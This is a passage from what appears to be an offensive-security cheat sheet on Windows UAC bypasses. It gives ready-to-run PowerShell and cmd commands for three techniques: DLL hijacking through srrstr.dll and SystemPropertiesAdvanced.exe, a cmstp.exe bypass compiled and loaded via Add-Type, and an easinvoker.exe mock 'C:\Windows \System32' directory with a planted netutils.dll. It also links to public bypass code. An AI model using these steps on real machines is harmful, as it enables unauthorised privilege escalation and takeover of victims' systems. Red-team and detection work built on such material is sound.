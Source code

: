 Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## easinvoker.exe

- [https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker](https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker)
- [https://github.com/g3tsyst3m/elevationstation/blob/main/elevationstation/elevationstation.cpp](https://github.com/g3tsyst3m/elevationstation/blob/ba521d9901c98458526c1790b2b0ed0b370796bc/elevationstation/elevationstation.cpp#L895-L903)

```
mkdir "\\?\C:\Windows "
mkdir "\\?\C:\Windows \System32"
copy c:\windows\system32\easinvoker.exe "C:\Windows \System32"
copy netutils.dll "C:\Windows \System32"
"C:\Windows \System32\easinvoker.exe"
del /q "C:\Windows \System32\*"
rmdir "C:\Windows \System32"
rmdir "C:\Windows \"
```
